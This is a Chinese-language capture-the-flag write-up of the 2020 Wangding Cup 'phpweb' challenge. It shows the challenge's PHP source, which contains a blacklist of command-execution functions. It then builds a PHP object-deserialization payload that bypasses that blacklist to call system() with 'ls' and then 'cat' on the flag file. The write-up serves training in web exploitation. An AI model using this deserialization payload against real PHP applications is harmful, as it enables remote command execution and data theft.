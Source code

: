 # [网鼎杯 2020 朱雀组]phpweb

## 知识点

`php反序列化`

## 解题

首页一直在不断请求，源码也没看到什么东西，抓包看下

![](./img/[网鼎杯2020朱雀组]phpweb-1.png)

发现了两个参数，猜测`func`为函数,`p`为参数(`param`),尝试使用`file_get_contents`读取文件

![](./img/[网鼎杯2020朱雀组]phpweb-2.png)

成功读取了`index.php`的源码

```php
<?php
    $disable_fun = array("exec","shell_exec","system","passthru","proc_open","show_source","phpinfo","popen","dl","eval","proc_terminate","touch","escapeshellcmd","escapeshellarg","assert","substr_replace","call_user_func_array","call_user_func","array_filter", "array_walk",  "array_map","registregister_shutdown_function","register_tick_function","filter_var", "filter_var_array", "uasort", "uksort", "array_reduce","array_walk", "array_walk_recursive","pcntl_exec","fopen","fwrite","file_put_contents");
    function gettime($func, $p) {
        $result = call_user_func($func, $p);
        $a= gettype($result);
        if ($a == "string") {
            return $result;
        } else {return "";}
    }
    class Test {
        var $p = "Y-m-d h:i:s a";
        var $func = "date";
        function __destruct() {
            if ($this->func != "") {
                echo gettime($this->func, $this->p);
            }
        }
    }
    $func = $_REQUEST["func"];
    $p = $_REQUEST["p"];

    if ($func != null) {
        $func = strtolower($func);
        if (!in_array($func,$disable_fun)) {
            echo gettime($func, $p);
        }else {
            die("Hacker...");
        }
    }
    ?>
```

发现有`析构函数`，且`unserialize`没有禁用,`$p`没有过滤`disable_fun`，那么就可以反序列化`Test`方法来执行命令

`payload`

```php
<?php
    class Test {
        var $p = "ls";
        var $func = "system";
    }

    $a = new Test();
    echo serialize($a);
?>
```

![](./img/[网鼎杯2020朱雀组]phpweb-3.png)

`最终payload`

```php
<?php
    class Test {
        var $p = "cat /tmp/flagoefiu4r93";
        var $func = "system";
    }

    $a = new Test();
    echo serialize($a);
    ?>
```

![](./img/[网鼎杯2020朱雀组]phpweb-4.png)
